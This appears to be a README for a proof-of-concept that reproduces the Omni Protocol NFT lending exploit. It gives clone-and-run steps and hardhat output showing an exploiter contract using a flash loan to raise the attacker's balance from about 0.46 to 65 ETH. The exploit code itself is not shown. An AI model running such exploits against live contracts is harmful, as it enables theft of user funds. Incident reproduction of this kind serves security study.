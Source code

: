 # Omni Protocol Incident PoC

## How to run

```
$  git clone https://github.com/SupremacyCA/Web3.0-Rekt
$  cd ./Omni
$  yarn

then 

$  sh run.sh
```

```
$  sh run.sh
yarn run v1.22.18
warning package.json: No license field
$ /Users/WangYi/Projects/PoCs/Web3.0-Rekt/NFT/Omni/node_modules/.bin/hardhat run scripts/attack.js
[#] 🧛 Exploiter deployed to: 0x683d9CDD3239E0e01E8dC6315fA50AD92aB71D2d
[#] 🥷  Start Attack...
[#] 🥷  Are lending out Flash Loan...
[#] 🧛 The hacker's Ether balance before the attack was launched: 0.458696289774128732
[#] 🧛 The hacker's Ether balance after the attack was launched: 65.38242739669974077
✨  Done in 6.29s.
```

---

## Link

- [https://twitter.com/Supremacy_CA/status/1547069844977520640](https://twitter.com/Supremacy_CA/status/1547069844977520640)